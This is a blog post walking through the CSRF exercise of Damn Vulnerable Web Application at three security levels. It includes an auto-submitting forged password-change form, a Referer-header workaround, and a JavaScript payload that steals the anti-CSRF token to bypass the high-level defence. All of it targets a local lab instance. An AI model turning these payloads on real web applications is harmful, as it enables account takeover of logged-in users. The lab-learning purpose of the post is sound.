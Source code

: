 ```yaml
---
layout: post
title:  "Damn Vulnerable Web Application - Part 3 / 12 CSRF"
date:   2024-04-29 20:00
image:  /images/dvwa-walkthrough/DVWA.jpg
tags:   [csrf]
categories: [DVWA]
---
```


# Cross Site Request Forgery (CSRF)
>Cross-Site Request Forgery (CSRF) is an attack that forces an end user to execute unwanted actions on a web application in which they’re currently authenticated. With a little help of social engineering (such as sending a link via email or chat), an attacker may trick the users of a web application into executing actions of the attacker’s choosing. If the victim is a normal user, a successful CSRF attack can force the user to perform state changing requests like transferring funds, changing their email address, and so forth. If the victim is an administrative account, CSRF can compromise the entire web application.
<br/>
<br/>
<b>Reference:</b>
<a href="https://owasp.org/www-community/attacks/csrf">OWASP</a>

### Security Level: `Low`

![DVWA CSRF Initial page](/images//dvwa-walkthrough/csrf/csrf-initial.png)


1. Reset the password and capture the request in Burp Suite. We can use the Burp Suite CSRF PoC generator to generate a PoC or we can use the below html code to test the form.

```
<html>
  <body>
    <form action='http://localhost:4280/vulnerabilities/csrf/'>
      <input type="hidden" name="password&#95;new" value="password" />
      <input type="hidden" name="password&#95;conf" value="password" />
      <input type="hidden" name="Change" value="Change" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

Preview of above html form:
![DVWA CSRF Malicious page](/images//dvwa-walkthrough/csrf/csrf-malicious-form.png)

#### Source Code:

![DVWA CSRF Low](/images/dvwa-walkthrough/csrf/csrf-low-source-code.png)
<br/>

### Security Level: `Medium`

When trying the same approach for the `Low` CSRF lab we get the following error:

![DVWA CSRF Medium Error](/images//dvwa-walkthrough/csrf/csrf-medium-error.png)

`Warning: Undefined array key "HTTP_REFERER" in /var/www/html/vulnerabilities/csrf/source/medium.php on line 5` indicates that there is a missing header value (`HTTP_REFERER`). We'll update the referer header to have the same path and parameters as our request.

![DVWA CSRF Medium Solution](/images//dvwa-walkthrough/csrf/csrf-medium-solution.png)

#### Source Code:

![DVWA CSRF Medium](/images/dvwa-walkthrough/csrf/csrf-medium-source-code.png)
<br/>

### Security Level: `High`

Inspecting the form we notice that the High security level form has a hidden input for user_token. This user_token is refreshed with every new request made to the server. [Read more on CSRF tokens ](https://cheatsheetseries.owasp.org/cheatsheets/Cross-Site_Request_Forgery_Prevention_Cheat_Sheet.html#synchronizer-token-pattern).

![DVWA CSRF High Solution](/images//dvwa-walkthrough/csrf/csrf-high-form.png)

To bypass this we'll in our malicious form we'll have to request a new CSRF token from the server and use that token to send our request.

The below javascript code requests a new CSRF token by sending a GET request to the page. We'll utilize regex `/[a-f0-9]{32}/g` to extract the user token from the response received. 
We then use the extracted user_token and add it to the malicious update request's query paramters.

```
<!DOCTYPE html>
<html>
<head>
    <meta charset='utf-8'>
    <meta http-equiv='X-UA-Compatible' content='IE=edge'>
    <title>Malicious File</title>
    
</head>
<body onload="maliciousFunction()">
    <p>;)</p>
    <script>
        function maliciousFunction(){
            const request = new XMLHttpRequest();
            
            request.open("GET", "http://localhost:4280/vulnerabilities/csrf/");
            request.onreadystatechange = () => {
            if (request.readyState === request.DONE && request.status === 200) {

                var response = request.responseText;
                var token = /[a-f0-9]{32}/g.exec(response)[0]
                var second_request = new XMLHttpRequest();
                second_request.open("GET", "http://localhost:4280/vulnerabilities/csrf/?password_new=zwarts&password_conf=zwarts&Change=Change&user_token="+token);
                second_request.send()

            }};

            request.send()
        }
        </script>
</body>
</html> 
```

`WIP - Add steps to upload above form to execute on visit, can't execute form from 3rd party because cors isn't enabled.`